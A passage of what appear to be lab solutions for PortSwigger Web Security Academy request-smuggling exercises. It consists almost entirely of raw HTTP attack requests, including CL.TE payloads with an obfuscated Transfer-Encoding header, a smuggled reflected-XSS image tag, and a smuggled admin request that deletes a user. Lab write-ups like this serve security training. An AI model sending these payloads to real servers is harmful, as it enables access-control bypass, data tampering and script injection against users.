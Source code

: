 ```
Host: 0ab400c404f08302c01f503800ff00ba.web-security-academy.net
Cookie: session=N2dqf1wUAKs2U79D8Kb9d3ROkWblLydg
Content-Length: 814
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=nyDg9uHq32xSredK0gaIuHeyk21sESN8&postId=2&name=wad&email=rei%40gmail.com&website=https://kek.com&comment=LEL
```

### 6. Exploiting HTTP request smuggling to deliver reflected XSS
```
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
tRANSFER-ENCODING: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
```

### 7. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
```
POST / HTTP/1.1
Host: 0a6f008e04ed8481c035778000dc0063.web-security-academy.net
Cookie: session=QjB6AgSHTuzJSZCHdc0al2SJSOtdc5bh
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
tRANSFER-ENCODING: chunked

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
